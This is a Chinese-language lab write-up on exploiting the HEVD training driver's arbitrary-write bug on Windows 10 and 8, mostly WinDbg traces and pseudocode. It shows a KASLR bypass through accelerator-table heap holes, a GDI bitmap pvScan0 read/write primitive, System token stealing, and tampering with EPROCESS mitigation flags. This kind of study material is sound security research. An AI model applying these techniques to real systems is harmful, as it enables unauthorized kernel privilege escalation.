

# 【技术分享】HEVD内核漏洞训练——陪Windows玩儿


                                阅读量   
                                **263753**
                            
                        |
                        
                                                                                                                                    
                                                                                            


[](./img/85579/t01dcd2fa8371551dae.jpg)


作者：[k0shl](http://bobao.360.cn/member/contribute?uid=1353169030)

预估稿费：600RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿


**前言**

前段时间在博客写了一篇关于HEVD内核漏洞利用训练的一篇文章，感觉当时做HEVD收获很大，非常推荐这个训练，这是HackSys Team做的一个Kernel Driver，里面包含了大量的常见漏洞，而且漏洞原理都非常简单，考验的就是各种各样的利用方法，推荐在Win10下尝试，有各种各样经典的利用方法，比如gsharedInfo，GdiSharedHandleTable，NtAllocateVirtualMemory，替换token的shellcode等等。

对这个训练的研究学习会对内核漏洞的原理，利用方式，Windows下很多常见的数据结构有一个初步的了解，从此打开Ring0的大门。

HEVD项目地址：[https://github.com/hacksysteam/HackSysExtremeVulnerableDriver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)

对于内核漏洞入门，我推荐的入门方式就是HEVD -&gt; CVE-2014-4113 -&gt; MS15-061，第一个是训练，后两个是实际环境中的漏洞。感觉在Ring0实在是太有意思了（不断被吊打，不断爬起来）！

HEVD：[http://bobao.360.cn/learning/detail/3448.html](http://bobao.360.cn/learning/detail/3448.html)

CVE-2014-4113：[http://bobao.360.cn/learning/detail/3170.html](http://bobao.360.cn/learning/detail/3170.html)

Windows在高版本中采取了越来越多的保护措施来防止漏洞利用，这让攻击变得越来越有意思，很多防护限制让很多漏洞利用变得难上加难，在这篇文章中，我将针对HEVD的一个任意内存读写漏洞，利用Cn33liz的一个Exploit来完成攻击并分析整个过程。

这次攻击有一个主角，那就是Bitmap，本文主要分析在最新Win10版本以及Win8下，Bitmap到底有多强大的威力。

[](https://p0.ssl.qhimg.com/t014edc74a6674ebc51.png)

在本文中，我将首先简单介绍一下Bitmap，最新Win10的KASLR机制，对Bitmap造成的影响，以及如何利用Accelerator Table来bypass KASLR。接下来我将和大家分享如何用SetBitmap和GetBitmap来完成攻击，以及攻击的主角，_SURFOBJ中的一个关键结构pvScan0。然后我将和大家分享Win10中的一些疑点，可能是坑，反正至今仍有一些疑惑在里面，接下来，我将结合我的偶像MJ0011在HITCON上一个关于Win8安全特性的演讲，移步Win8，来看看Bitmap的超级杀伤力，以及这些安全特性的防护机制。文末我将把我在Win10和Win8下实验的源码放出来，这个源码中包含对抗Win10和Win8的防护机制的一些过程，是基于Cn33liz大牛的源码改写。文中所有的测试都是基于我改写的源码完成的，相应的注释都在源码中，改动源码仓促也不够漂亮，望大家海涵。因为多次重新调试，地址有变化，可以结合文字一起研究学习。

**本文所用原源码项目地址：**[https://github.com/Cn33liz/HSEVD-ArbitraryOverwriteGDI](https://github.com/Cn33liz/HSEVD-ArbitraryOverwriteGDI)

关于这个漏洞成因，我不再进行详细的讲解，HackSys team的Github项目里有详细说明，这个任意写漏洞就是可以向指定地址写进指定值，而没有对写入地址和写入内容的合法性进行检查。测试环境是最新版Win10。

[](https://p0.ssl.qhimg.com/t0107b7cd5ec741c2a3.png)

 

**陪Win10玩儿–CreateBitmap和KASLR**

我之前的那篇HEVD的分享中，是在Windows7下面完成的，在Win7下面，我们拥有很多自由，可以向很多特殊的位置、结构写入shellcode，并且在内核态完成shellcode的执行。但是在Win10中，增加了茫茫多的限制，很多利用变得很困难，shellcode似乎变得不太可行。

而在FuzzySecurity中也提到了data attack，在众多限制下，Bitmap给我们提供了一个极大的便捷，这种攻击手段威力很强，非常有趣。

在Windows10中，我们需要获取Bitmap的内核地址，然后利用Bitmap这种_SURFOBJ结构的一个特殊成员变量来完成攻击，也就是我们后面要提到的pvScan0。

在之前版本的Win10中，可以通过一个特殊的结构GdiSharedHandleTable来获得Bitmap的内核对象地址。这个GdiSharedHandleTable是PEB结构体中的一个结构。而里面存放的内容是一个GDICELL64结构。关于在老版本Win10中利用GdiSharedHandleTable如何来获得Bitmap并进行攻击我不再详述，在文章末尾，我会给出一篇非常棒的技术文章，里面详述了这种攻击方式。

在新版本Win10中，fix了这种方法，GdiSharedHandleTable获得的地址，不再是一个有效的pkernelAddress，也就是说，即使我们通过这种方式和createbitmap的handle获得了一个地址，然而并不是真正的pkernelAddress，当然我们的主角pvScan0也不正确。

```
kd&gt; dt @$PEB nt!_PEB GdiSharedHandleTable //
   +0x0f8 GdiSharedHandleTable : 0x00000000`00e00000 Void
kd&gt; db 0x00000000`00e00000+0x0b69*0x18 L8
00000000`00e111d8  69 0b c2 ff ff ff ff ff                          i.......
kd&gt; dd ffffffffffc20b69
ffffffff`ffc20b69  ???????? ???????? ???????? ????????
kd&gt; dd ffff9f9683d01000
ffff9f96`83d01000  270501ac 00000000 00000000 00000000
ffff9f96`83d01010  00000000 00000000 00000000 00000000
```

可以看到，在通过GdiSharedHandleTable获得的Bitmap的内核地址是一个为开辟的内核空间和真正的Bitmap内核地址有所区别。这时候，gSharedInfo出现了，这个gSharedInfo是一个非常经典的结构，在很多kernel exploitation都出现过，它其中包含着内核结构，我们可以通过它获得内核表，然后通过计算偏移得到内核对象地址。

解决这种问题的方法就是用AcceleratorTable加速键表，我之前的内核漏洞调试笔记之二调试的CVE-2015-2546就是用的加速键表，制造一个稳定的内存空洞，连续申请释放内存，直到两次申请释放的AccleratorTable的内核句柄相同，则再申请相同大小的bitmap，这样就能获得GDI对象了，再通过这个对象的phead就是pkernelAddress。

[](https://p1.ssl.qhimg.com/t01bb24e81c8797dccd.png)

如何获得呢？在这个handleentry里有一个aheList，其中包含了一个phead对象，它就是指向pkerneladdress的。来看一下gSharedInfo的地址，这里我也不知道为什么，感觉可能是Win10很多win32k的结构体不透明化了，看不到tagSharedInfo的结构体，感觉像被隐藏了。

```
kd&gt; ?user32!gsharedinfo  //获得gsharedinfo的地址值
Evaluate expression: 140725741012608 = 00007ffd`43cdc680
```

 获得了gSharedInfo的地址之后，我们可以通过Accelerator Table的handle，获取到gSharedInfo结构中的aheList对应的内核句柄值。 

```
kd&gt; dd 7ffd43cdc680  //查看地址值的内容
00007ffd`43cdc680  01360700 00000000 011e0000 00000000
kd&gt; dt win32k!tagSHAREDINFO  //由于调试时tagSHAREDINFO不透明，这里只能                                  
//从网上拷贝一个方便说明
     +0x000 psi                    :  tagSERVERINFO
+0x008 aheList                :  _HANDLEENTRY
kd&gt; dq 7ffd43cdc680+0x8 L1 //+0x8位置的HANDLEENTRY就是我们要的表
00007ffd`43cdc688  00000000`011e0000
```

这样就能得到句柄实际内核地址的表了，也就是指向GDI对象的表，这里就要计算对应的偏移了，计算方法其实和之前GdiSharedHandleTable很像，那个算对应GDICELL64地址的计算方法是：

GdiSharedHandleTable+(handle &amp; 0xffff)*sizeof(GDICELL64)

这里就用_HANDLETABLE_ENTRY + (Accel &amp; 0xffff)*sizeof（Accel）算出地址，这里Accel的值是：

```
kd&gt; r eax
eax=1700b9
kd&gt; p
0033:00007ff6`956112d1 488d1449   lea     rdx,[rcx+rcx*2]//计算handle的值
kd&gt; p
0033:00007ff6`956112d5 488bc8          mov     rcx,rax
kd&gt; r rdx
rdx=000000000000022b// handle的值为22b
kd&gt; dd 11e0000+22b*8 L1 // 11e0000是刚才获得的HANDLENTRY，计算出偏移
 // 指向的就是GDI对象
00000000`011e1158  81be7000 ffffbad3
```

 紧接着调用DestroyAcceleratorTable释放这个加速键表，可以看到对应句柄内核指针的值也被释放了。注意这里申请的Accelerator Table的大小是700，同样如果制造出一个稳定的hole之后，申请bitmap的大小也是700。

```
kd&gt; p
0033:00007ff6`956112d8 488b5cd500      mov     rbx,qword ptr [rbp+rdx*8]
kd&gt; p
0033:00007ff6`956112dd ff15451f0000    call    qword ptr [00007ff6`95613228]
kd&gt; p
0033:00007ff6`956112e3 babc020000      mov     edx,2BCh
kd&gt; dd 11e0000+22b*8// 对应索引的位置GDI对象被释放
00000000`011e1158  0000042f 00000000
```

可以看到，对应位置存放的GDI对象也释放掉了，再次通过Create申请Accelerator Table。 

```
0033:00007ff6`956112eb ff152f1f0000    call    qword ptr [00007ff6`95613220]
kd&gt; p//返回值eax
0033:00007ff6`956112f1 0fb7c8          movzx   ecx,ax
kd&gt; r rax
rax=00000000001800b9
kd&gt; p
0033:00007ff6`956112f4 488d1449        lea     rdx,[rcx+rcx*2]
kd&gt; p
0033:00007ff6`956112f8 488bc8          mov     rcx,rax
kd&gt; r rdx//计算获得handle，和上一次申请的handle值一样
rdx=000000000000022b
kd&gt; dd 11e0000+22b*8//查看pkernelAddress
00000000`011e1158  81be7000 ffffbad3
kd&gt; dd ffffbad381be7000 l90//对应位置存放的值，+0x0位置就是phead
                            //GdiSharedHandleTable被fix，可以用这个方法
ffffbad3`81be7000  001800b9 00000000 00000000 00000000
ffffbad3`81be7010  00000000 00000000 000002bc 00000000
```

 句柄虽然改变但是对应索引位置在shared info handle entry的值仍然是相同的，这样，再次在相同位置申请bitmap，首先释放，来看下pkernelAddress的值：

```
kd&gt; p
0033:00007ff6`95611311 ff15111f0000    call    qword ptr [00007ff6`95613228]
kd&gt; p
0033:00007ff6`95611317 33c9            xor     ecx,ecx
kd&gt; dd ffffbad381be7000//查看GDI对象的内容也被释放
ffffbad3`81be7000  ???????? ???????? ???????? ????????
ffffbad3`81be7010  ???????? ???????? ???????? ????????
ffffbad3`81be7020  ???????? ???????? ???????? ????????
```

指向的空间也被释放了，随后通过CreateBitmap申请bitmap，大小同样是700，来占用Accelerator制造的稳定内存空洞。调用CreateBitmap之后占用了内存空洞。这样，我们直接找到ffffbad381be7000这个GDI对象。

```
kd&gt; p//调用CreateBitmap创建Bitmap
0033:00007ff6`95611345 ff15dd1c0000    call    qword ptr [00007ff6`95613028]
kd&gt; p//创建成功返回
0033:00007ff6`9561134b 488906          mov     qword ptr [rsi],rax
kd&gt; dd ffffbad381be7000//查看原来Accelerator Table的内核地址位置的值
ffffbad3`81be7000  96050bd0 ffffffff 00000000 00000000
```

可以看到，我们成功获得了Bitmap的pkernelAddress，就是0xffffffff96050bd0，这样，我们就成功在KASLR和fix GdiSharedHandleTable下，完成了bitmap pkernelAddress的获取。

**<br>**

**SetBitmap/GetBtimap和pvScan0**

利用gSharedInfo获取aheList，从而得到Accelerator Table在gshareInfo中的GDI对象从而获得内核地址，利用Accelerator Table制造稳定的内存空洞，最后绕过KASLR和获取Bitmap的pkernelAddress的目的就是获得pvScan0这个结构，这个是Bitmap之所以成为data attack的核心。

这里我要提一下，在调试过程中，我们需要用__asm int 3来下断点，但是在64位下VS不支持内联汇编，因此我们在项目中创建一个.asm文件，实现int 3功能，再将其编译，在项目主文件中用Int_3()来下软中断（详见我的源码），这样我们在SetBitmap下断点，首先命中GDI32!SetBitmapBitsStub：

```
kd&gt; p
GDI32!SetBitmapBitsStub+0x1c:
0033:00007fff`bd5b44ac 488bd9          mov     rbx,rcx
kd&gt; p//调用GDI32的IsTextOutAPresent -&gt; IsSetWorldTransformImplPresent函数
GDI32!SetBitmapBitsStub+0x1f:
0033:00007fff`bd5b44af e878b50000      call    GDI32!IsTextOutAPresent (00007fff`bd5bfa2c)
```

随后会到达call IsTextOutAPresent函数调用，这个函数在GDI32的实现是IsSetWorldTransformmImplPresent。 

```
char IsSetWorldTransformImplPresent()
{
  char result; // al@2
  char v1; // [sp+30h] [bp+8h]@5
 
  if ( dword_18002E670 == 1 )//dword_18002E670检查是否为1
  {
    result = dword_18002E670;
  }
  else if ( dword_18002E670 == 2 || (v1 = 0, ApiSetQueryApiSetPresence((__int64)L"LN", (__int64)&amp;v1) &lt; 0) )
  {
    result = 0;
  }
  else
  {
    result = v1;
    dword_18002E670 = 2 - (v1 != 0);
  }
  return result;
}
```

这个函数主要是对dword_18002E670这个值进行判断，这个值是hmod ext ms win gdi internal desktop l1.1.0.dll+0x8位置的一个结构体变量，若为1则直接返回。

```
kd&gt; p
GDI32!IsUpdateColorsPresent+0x4://获取dll+0x8位置的值
0033:00007fff`bd5bfa30 8b0d3aec0100    mov     ecx,dword ptr [GDI32!_hmod__ext_ms_win_gdi_internal_desktop_l1_1_0_dll+0x8 (00007fff`bd5de670)]
kd&gt; dd 00007fff`bd5de670//这个位置的值为1，后面是dll函数偏移
00007fff`bd5de670  00000001 00000000 00000000 00000000
00007fff`bd5de680  ba17ba20 00007fff ba174230 00007fff
00007fff`bd5de690  ba1765d0 00007fff ba1eafa0 00007fff
kd&gt; p
GDI32!IsUpdateColorsPresent+0xa://将这个值和1作比较
0033:00007fff`bd5bfa36 83f901          cmp     ecx,1
kd&gt; r ecx
ecx=1
```

 这个可能是判断ext_ms_win_gdi_internal_desktop_l1.1.0.dll的加载情况，_imp_SetBitMapBits就链在这个dll中，随后会跳转。到zwGdiSetBitmapBits中。

```
kd&gt; p //调用_imp_SetBitmapBits函数
GDI32!SetBitmapBitsStub+0x30:
0033:00007fff`bd5b44c0 ff15c2be0200    call    qword ptr [GDI32!_imp_SetBitmapBits (00007fff`bd5e0388)]
kd&gt; t//跳转到NtGdiSetBitmapBits
gdi32full!SetBitmapBits:
0033:00007fff`ba17bcf0 48ff2509290900  jmp     qword ptr [gdi32full!_imp_NtGdiSetBitmapBits (00007fff`ba20e600)]
kd&gt; p
win32u!ZwGdiSetBitmapBits:
0033:00007fff`ba2d26f0 4c8bd1          mov     r10,rcx
//随后会进入ZwGdiSetBitmap
.text:0000000180003330                 public ZwGdiSetBitmapDimension
.text:0000000180003330 ZwGdiSetBitmapDimension proc near       ; DATA XREF: .rdata:000000018000A544_x0019_o
.text:0000000180003330                                         ; .rdata:off_18000C608_x0019_o ...
.text:0000000180003330                 mov     r10, rcx
.text:0000000180003333                 mov     eax, 1118h
.text:0000000180003338                 test    byte ptr ds:7FFE0308h, 1
.text:0000000180003340                 jnz     short loc_180003345
.text:0000000180003342                 syscall
.text:0000000180003344                 retn
```

syscall是AMD CPU下的sysenter，以此进入内核层，由于64位下没有nt!KiFastCallEntry，而改用的是nt!KiSystemCall64，在64位系统下启用了四个新的MSR寄存器，有不同的作用，其中MSR_LSTAR保存的是rip的相关信息，可以通过rdmsr c0000082的方法查看到syscall跳转地址。这个地址正是nt!KiSystemCall64的入口地址。

```
kd&gt; rdmsr c0000082
msr[c0000082] = fffff801`7cb740c0
nt!KiSystemCall64:
0033:fffff801`7cb740c0 0f01f8          swapgs
0033:fffff801`7cb740c3 654889242510000000 mov   qword ptr gs:[10h],rsp
```

到此，我们进入SetBitmap的内核态，之所以pvScan0这么重要，是因为SetBitmap会对pvScan0指向的内容写数据，GetBitmap会获取pvScan0指向的内容。这样，我们可以设置一个Manager Bitmap（以下称为M）和一个Work Bitmap（以下称为W），将M的pvScan0修改成W的pvScan0地址，这样每次就能用在M上调用SetBitmap将W的pvScan0内容修改成我们想要读或者写的地址，再调用Get/Set Bitmap来向指定地址读取/写入数据了。这么说有点乱，来看一下整个过程。

通过AcceleratorTable制造内存空洞占位获取Bitmap的pkernelAddress之后，可以获取到pvscan0的值，其中M存放W的pvscan0所存放的地址，而W的pvscan0用于最后写入相关的内容，这样我们调用setbitmapbits函数的时候，会将M的pvscan0里存放地址指向的值修改为要写入的地址。 

```
kd&gt; dq ffffbad383ae9050 L1 // M的pvScan0，现在指向W，这样每次修改，相当                                //于修改W的pvScan0
ffffbad3`83ac8050  ffffbad3`83aeb050
kd&gt; dq ffffbad383aeb050 L1//W的pvScan0，所在地址值就是M的pvScan0值
ffffbad3`83ac8050  ffffe28d`12762af0//要修改的就是这个值，向这个值的内容
//读取/写入数据
```

这里就会将ffffbad383aeb050中的值改写，因此在这里下内存写入断点。

```
kd&gt; ba w1 ffffbad383aeb050//向W的pvScan0下内存写入断点
kd&gt; p
Breakpoint 0 hit
win32kfull!memmove+0x1cf://中断在win32kfull!memmove函数中
ffffbab6`0b940f0f 75ef            jne     win32kfull!memmove+0x1c0 (ffffbab6`0b940f00)
kd&gt; bl
 0 e ffffbad383aeb050 w 1 0001 (0001)
kd&gt; kb
RetAddr:ArgstoChild  : Call Site
ffffbab6`0b88405c : 00000000`00fff8a0 00000000`00000000 00000000`00000a9a ffffbab6`0bbbf1da : win32kfull!memmove+0x1cc
ffffbab6`0b883e1a : ffffbad3`83ae9000 00000000`00000000 ffffffff`00000008 fffff801`00000704 : win32kfull!bDoGetSetBitmapBits+0x168
00000000`00000000 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : win32kfull!GreSetBitmapBits+0x17a
kd&gt; dq ffffbad383adc050 L1 //这里会写入新的pvScan0，这个值是当前进程的                                       //token地址
ffffbad3`83aeb050  ffffe28d`12762b58
kd&gt; !process 0 0 //查看当前进程
PROCESS ffffe28d12762800
    SessionId: 1  Cid: 10cc    Peb: 011cb000  ParentCid: 1124
    DirBase: 48d5b000  ObjectTable: ffffa709d16d1640  HandleCount: &lt;Data Not Accessible&gt;
Image: Stop_by_win10.exe
kd&gt; dt nt!_EPROCESS Token ffffe28d12762800
   +0x358 Token : _EX_FAST_REF
kd&gt; dq ffffe28d12762800+358 L1//看看token值，就是pvScan0的值
ffffe28d`12762b58  ffffa709`d1903996
```

在Win10中，绝大多数的win32k.sys实现都在win32full里完成，这里利用M的pvScan0完成了对W的pvScan0值的修改，使之指向了当前进程的Token，接下来只需要调用GetBitmap/SetBitmap通过W的pvScan0，就可以完成对Token的读取和修改，从而完成提权。


```
kd&gt; !process 0 4 //获取System _EPROCESS结构
**** NT ACTIVE PROCESS DUMP ****
PROCESS ffffe28d0f662040
    SessionId: none  Cid: 0004    Peb: 00000000  ParentCid: 0000
    DirBase: 001aa000  ObjectTable: ffffa709c88032c0  HandleCount: &lt;Data Not Accessible&gt;
    Image: System
kd&gt; dq ffffe28d0f662040+358 L1 //得到System  Token值
ffffe28d`0f662398  ffffa709`c88158ad
kd&gt; p//调用setBitmap将这个值写入当前进程的地址
0033:00007ff7`9dd2217f 488bce          mov     rcx,rsi
kd&gt; g
Break instruction exception - code 80000003 (first chance)
0033:00007ff7`9dd222b0 cc              int     3
kd&gt; !process //当前进程的_EPROCESS
PROCESS ffffe28d12cb2080
    SessionId: 1  Cid: 0b48    Peb: 0117d000  ParentCid: 1124
    DirBase: 320b6000  ObjectTable: ffffa709d5f84500  HandleCount: &lt;Data Not Accessible&gt;
    Image: Stop_by_win10.exe
kd&gt; dq ffffe28d12cb2080+358 L1 //利用SetBitmap替换后，当前进程Token变成了                          //System Token，提权完成
ffffe28d`12cb23d8  ffffa709`c88158ad
```

[](https://p5.ssl.qhimg.com/t01eb9345f255ef4987.png)

    我和大家分享了pvScan0在Bitmap这种data attack中的核心地位，Bitmap的pkernelAddress的获取方法和如何通过pvScan0完成攻击，接下来，我将结合偶像MJ0011的PPT，来讲一下Win10的一些坑，以及回归Win8下来看一下MJ0011的PPT中介绍的一些防护机制，和Bitmap的威力。

 

**被Win10吊打的日子**

在MJ0011的PPT中介绍了几种防护机制，比如禁零页，禁Win32k调用，SMEP，ExPoolWithTagNX等等。本来刚开始想在Win10下进行实验，但是发现Win10下有很多奇怪的坑。这里简单提一下几种防护机制：

1、禁零页，NtAllocateVirtualMmemory是现在常用的内核漏洞利用手法，Win8 _EPROCESS增加了一比特的Flags.VdmAllowed，当为0时禁用，当为1时可用。

2、禁Win32k，Win32k存在很多漏洞，比如UAF，我在前面两个经典内核漏洞调试的分享中都是Win32k出的问题，这里通过_EPROCESS结构增加一比特的Flags2.DisallowWin32kSystemCalls禁用调用。

3、SMEP，在内核漏洞利用中，通常是利用内核态的一些失误执行用户态申请的空间存放的shellcode，这里直接通过SMEP禁止在内核态执行用户态空间的代码。这里，我将以禁Win32k调用和禁零页来做实验，利用的就是Bitmap来修改这两个比特的值，看看能不能绕过禁用机制，首先来看一下当前进程，以及对应的两个值。

```
kd&gt; !process
PROCESS ffffe28d12cb2080
    SessionId: 1  Cid: 0b48    Peb: 0117d000  ParentCid: 1124
    DirBase: 320b6000  ObjectTable: ffffa709d5f84500  HandleCount: &lt;Data Not Accessible&gt;
    Image: Stop_by_win10.exe
kd&gt; dt nt!_EPROCESS VdmAllowed ffffe28d12cb2080
   +0x304 VdmAllowed : 0y0//标志位为0，禁用零页
kd&gt; dt nt!_EPROCESS DisallowWin32kSystemCalls ffffe28d12cb2080
   +0x300 DisallowWin32kSystemCalls : 0y0//标志位为1，默认不禁用Win32k
kd&gt; dd ffffe28d12cb2080+300 L4 //查看一下Flags2和Flags的值
ffffe28d`12cb2380  0000d000 144d0c01 a1beb1e1 01d288e0
```

可以看到，在当前进程Win32k API是不禁用的，也就是说，我们仍然可以直接调用Win32k的API，而NtAllocateVirtualMemory则处于禁用状态。对于Flags来说是0000d0000，Flags2来说是144d0c01，这样把它们转换成二进制，把对应比特位置换为1（这个内容可以在我的源码中看到），然后赋值给各自的Flags。

```
kd&gt; r r13//获取两个Flags值，并且修改比特位之后的值
r13=a1beb1e1164d0c00
kd&gt; r r14
r14=144d0c018000d000
kd&gt; g//命中软中断
Break instruction exception - code 80000003 (first chance)
0033:00007ff7`9dd222b0 cc              int     3
kd&gt; g
Break instruction exception - code 80000003 (first chance)
0033:00007ff7`9dd222b0 cc              int     3
kd&gt; dd ffffe28d12cb2080+300 L4//修改后，通过SetBitmap写入偏移
ffffe28d`12cb2380  8000d000 164d0c01 a1beb1e1 01d288e0
```

这里我采用了Win7零页分配的方法，handle选择0xffffffffffffffff，但是发现在Win10中，会调用ObpReferenceObjectByHandleWithTag函数Check handle，如果不是一个有效的handle，则直接返回，NTSTATUS直接报错。

```
kd&gt; p
nt!MiAllocateVirtualMemory+0x7b8:
fffff801`7cee27c8 498bca          mov     rcx,r10
kd&gt; p //ObpReferenceObjectByHandleWithTag check handle
nt!MiAllocateVirtualMemory+0x7bb:
fffff801`7cee27cb e8a0070100      call    nt!ObpReferenceObjectByHandleWithTag (fffff801`7cef2f70)
kd&gt; p
nt!MiAllocateVirtualMemory+0x7c0:
fffff801`7cee27d0 89442464        mov     dword ptr [rsp+64h],eax
kd&gt; r eax//没有这个handle则返回NTSTATUS
eax=c0000008
// ObpReferenceObjectByHandleWithTag 检查逻辑
  if ( (BugCheckParameter1 &amp; 0x80000000) != 0i64 )
  {
    if ( BugCheckParameter1 == -1i64 )//如果handle值为0xfff....ff
    {
      if ( v9 != PsProcessType &amp;&amp; v9 )
      {
        LODWORD(v12) = -1073741788;
      }
      else
      {
        v37 = *(_QWORD *)(v8 + 184);
        if ( v11 &amp; 0xFFE00000 &amp;&amp; a4 )
        {
          LODWORD(v12) = -1073741790;
        }
        ……
      }
      return (unsigned int)v12;                 // C0000008
    }
    if ( BugCheckParameter1 == -2i64 )
    {
    }
  }
```

    这样，我们就只能修改代码通过OpenProcess获得当前进程handle，并且将VdmAllowed置1，但是发现即使NTSTATUS返回0，也就是STATUS_SUCCESS，内存状态可写，只需要memset初始化内存即可。

```
kd&gt; !process
PROCESS ffffe28d12fb0080
    SessionId: 1  Cid: 10b0    Peb: 00ddb000  ParentCid: 1124
    DirBase: 51685000  ObjectTable: ffffa709d9138200  HandleCount: &lt;Data Not Accessible&gt;
    Image: Stop_by_win10.exe
kd&gt; dt nt!_EPROCESS VdmAllowed ffffe28d12fb0080 //当前VdmAllowed为1
   +0x304 VdmAllowed : 0y1
kd&gt; p
0033:00007ff7`16e7204c ff55a0          call    qword ptr [rbp-60h]
kd&gt; p
0033:00007ff7`16e7204f 0f28b424e0040000 movaps  xmm6,xmmword ptr [rsp+4E0h]
kd&gt; p
0033:00007ff7`16e72057 85c0            test    eax,eax
kd&gt; r eax//NTSTATUS返回0，也就是STATUS_SUCCESS
eax=0
kd&gt; dd 4600000000//等待初始化的内存
00000046`00000000  ???????? ???????? ???????? ????????
00000046`00000010  ???????? ???????? ???????? ????????
```

    同样，我们修改Win32k为1，这样就禁用了win32k调用，可以发现，在禁用后，会阻止win32k的调用，从而无法初始化cmd。关于win32k调用的逻辑后面会讲到。

[](https://p2.ssl.qhimg.com/t01c63c9af58639cf8c.png)

 

**回归Win8看防护之NtAllocateVirtualMemory**

接下来我们回到Win8 x86，来看一下NtAllocateVirtualMemory的防护到底是怎样的。这里请使用文末我修改后的适用于win8 x86的代码。首先是禁用零页申请内存。我们首先在禁用零页时调试，首先进入内核态，从ntdll进入nt。

```
kd&gt; p
001b:77d4f04d e803000000    call    77d4f055//调用NtAllocateVirtualMemory
kd&gt; t
001b:77d4f055 8bd4            mov     edx,esp
001b:77d4f055 8bd4            mov     edx,esp
001b:77d4f057 0f34            sysenter//x86下用sysenter进入内核态
001b:77d4f059 c3              ret
```

在nt!NtAllocateVirtualMemory下断点跟踪，在入口处会先将Handle、BaseAddress等内容传入寄存器（用于各种检查，比如对Handle检查合法性，在之前已经提过），接下来会通过fs:[0x124]获取到_KTHRAD结构

```
kd&gt; p
nt!NtAllocateVirtualMemory+0x34://获取KTHREAD结构
81a891a2 648b3d24010000  mov     edi,dword ptr fs:[124h]
kd&gt; p
nt!NtAllocateVirtualMemory+0x3b:
81a891a9 897da8          mov     dword ptr [ebp-58h],edi
kd&gt; r edi
edi=86599bc0
kd&gt; dt nt!_KTHREAD 86599bc0
   +0x000 Header           : _DISPATCHER_HEADER
   +0x010 SListFaultAddress : (null)
```

之后会将_KTHREAD+0x80偏移的值交给eax寄存器，偏移加0x80实际上就是EPROCESS结构，这个位置属于APC域，这个位置在KTHREAD+0x70的位置，而EPROCESS又保存在KAPC_STATE+0x10的位置

```
kd&gt; p//edi是KTHREAD，eax的值是EPROCESS
nt!NtAllocateVirtualMemory+0x3e:
81a891ac 8b8780000000    mov     eax,dword ptr [edi+80h]
kd&gt; p
nt!NtAllocateVirtualMemory+0x44:
81a891b2 8945b0          mov     dword ptr [ebp-50h],eax
kd&gt; r eax
eax=85a44040
kd&gt; !process
PROCESS 85a44040  SessionId: 1  Cid: 0860    Peb: 7f74d000  ParentCid: 0f08
    DirBase: 3df14300  ObjectTable: 8c173740  HandleCount: &lt;Data Not Accessible&gt;
    Image: Stop_by_win10.exe
kd&gt; dt nt!_KTHREAD ApcState//偏移加0x70
   +0x070 ApcState : _KAPC_STATE
kd&gt; dt nt!_KAPC_STATE//偏移加0x10，一共是0x80，对应的位置是EPROCESS
   +0x000 ApcListHead      : [2] _LIST_ENTRY
   +0x010 Process          : Ptr32 _KPROCESS
```

接下来我们单步跟踪，到达一处判断，这里会将BaseAddress和0x10000作比较，小于则跳转到另一处判断

```
kd&gt; p
nt!NtAllocateVirtualMemory+0x9b7:
81a89b25 3bd0            cmp     edx,eax
kd&gt; r edx
edx=00000060
kd&gt; r eax
eax=00010000
kd&gt; p
nt!NtAllocateVirtualMemory+0x9b9://如果申请地址值小于0x1000，则跳转
81a89b27 0f8257781200    jb      nt! ?? ::NNGAKEGL::`string'+0x19d1a (81bb1384)
kd&gt; p
nt! ?? ::NNGAKEGL::`string'+0x19d1a:
81bb1384 f787c400000000000001 test dword ptr [edi+0C4h],1000000h
kd&gt; dd edi+c4 L1//edi+0C4就是Flags
85a44104  144d0c01
kd&gt; p
nt! ?? ::NNGAKEGL::`string'+0x19d24://这里会将VdmAllowed值作比较判断
81bb138e 0f859987edff    jne     nt!NtAllocateVirtualMemory+0x9bf (81a89b2d)
```

这个值很有意思，就是_EPROCESS.Flags2的值，来看一下，而这里判断的就是Flags2中的一个比特位VdmAllowed

```
kd&gt; dt nt!_EPROCESS Flags 85a44040
   +0x0c4 Flags : 0x144d0c01
kd&gt; dt nt!_EPROCESS VdmAllowed 85a44040
   +0x0c4 VdmAllowed : 0y0
```

 这里值为0，也就是禁用零页分配，因此这里分配不成功将会进入处理，返回C00000F0

```
kd&gt; p
nt! ?? ::NNGAKEGL::`string'+0x19d2a:
81bb1394 bef00000c0      mov     esi,0C00000F0h
kd&gt; p
nt! ?? ::NNGAKEGL::`string'+0x19d2f:
81bb1399 e94c87edff      jmp     nt!NtAllocateVirtualMemory+0x97c (81a89aea)
```

我们来看一下NtAllocateVirtualMemory相关逻辑的伪代码。

```
NTSTATUS __stdcall NtAllocateVirtualMemory(HANDLE ProcessHandle, PVOID *BaseAddress, ULONG ZeroBits, PULONG AllocationSize, ULONG AllocationType, ULONG Protect)
{
      v65 = ProcessHandle;
    v68 = BaseAddress;
      v67 = AllocationSize;
    v7 = __readfsdword(292);//获取_KTHREAD结构
    v76 = v7;
    v78 = *(PVOID *)(v7 + 128); //获取+0x80 EPROCESS结构
    ……
    PreviousMode[0] = *(_BYTE *)(v7 + 346);
    ms_exc.registration.TryLevel = 0;
    v9 = v68;//传递地址值
    ……
    v12 = (unsigned int)*v9; //BaseAddress连续传递
    v74 = v12;//再次传递
    if ( v74 &lt; 0x10000 &amp;&amp; !(*(_DWORD *)(v14 + 196) &amp; 0x1000000) )// 判断v74 BaseAddress是否小于10000，如果小于会认为是零页内存分配，则会判断v14+196，也就是Flags.VdmAllowed是否允许分配
    {
       v25 = 0xC00000F0;//如果是零页分配且禁用零页分配，则返回C00000F0
       goto LABEL_145;
    }
}
```

